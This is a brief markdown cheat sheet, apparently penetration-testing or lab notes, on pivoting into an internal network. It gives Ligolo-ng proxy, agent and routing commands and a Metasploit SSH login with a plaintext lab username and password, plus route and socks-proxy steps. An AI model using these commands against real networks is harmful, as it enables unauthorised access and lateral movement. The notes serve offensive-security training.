 ## Ligolo-ng [GUIDE](https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740)
##### Setup `tun` interface
```sh
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
```

##### Local machine
```sh
./ligolo-proxy -selfcert -laddr 0.0.0.0:6666
```

##### On remote box
```sh
./ligolo-agent -connect LOCAL_IP:6666 -ignore-cert
```

##### On local machine, add the subnet you want to pivot to
```sh
sudo ip route add 172.16.1.0/24 dev ligolo
```

##### On ligolo-ng proxy on LOCAL
```sh
session
start
```



## Metasploit (slow af)
#### Connect with ssh
```
use auxiliary/scanner/ssh/ssh_login
set rhosts 10.10.110.100
set username balthazar
set password TheJoker12345!
exploit
```

#### Add route
The subnet is the network where we want to pivot to, which is only visible from inside the entrypoint machine
```
command arg subnet netmask session
```

```
route add 172.16.1.0 255.255.255.0 1
```

#### Create socks proxy
```
use auxiliary/server/socks_proxy
set srvport 1337
run -j
```
